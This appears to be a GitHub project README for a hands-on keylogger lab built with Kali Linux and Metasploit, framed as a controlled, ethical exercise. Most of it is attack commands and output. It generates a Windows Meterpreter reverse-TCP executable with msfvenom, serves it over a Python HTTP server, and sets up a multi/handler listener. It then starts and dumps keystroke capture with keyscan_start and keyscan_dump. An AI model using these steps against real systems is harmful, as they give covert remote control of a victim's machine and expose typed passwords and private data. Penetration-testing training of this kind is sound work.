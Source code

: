 # Keylogger Setup Project

## Project Overview
The Keylogger Project delves into the creation of a keylogger using Kali Linux, with a focus on the Metasploit Framework's msfvenom and Meterpreter. The objective is to provide users with hands-on experience in generating payloads, setting up listeners, and exploring the capabilities of Meterpreter in a controlled and ethical environment.

```
ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet [REDACTED]  netmask 255.255.255.0  broadcast [REDACTED]
        inet6 [REDACTED]  prefixlen 64  scopeid 0x20<link>
        ether [REDACTED]  txqueuelen 1000  (Ethernet)
        RX packets 1639859  bytes 873793905 (833.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1215487  bytes 189420207 (180.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 363  bytes 25152 (24.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 363  bytes 25152 (24.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

## Building a Keylogger with Kali Linux:

The process begins with the creation of a "meterpreter shell" using the ```msfvenom``` command in Kali Linux.
The command generates a payload in the form of an executable file (shell.exe) that establishes a connection with another system when executed.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[REDACTED] LPORT=123 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
### Command Explaination 
```-p``` = payload  <br>
```LHOST``` = local host (Linux Machine) <br>
```LPORT``` = local port <br>
```-f``` = file format <br>
```-o``` = output file name

```
python -m http.server 8000
```
![alt](images/keylog(1).PNG)

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit (multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit (multi/handler) > set LHOST [REDACTED]
LHOST => [REDACTED]
msf6 exploit (multi/handler) > set LPORT 123
LPORT => 123
msf6 exploit(multi/handler) > run
```
## Keylogging Commands:

After successfully establishing a connection, the user can initiate the keylogger with the command meterpreter > keyscan_start.
```
meterpreter > keyscan_start
```
To retrieve captured keystrokes, the command meterpreter > keyscan_dump is used.
```
meterpreter > keyscan_dump
```

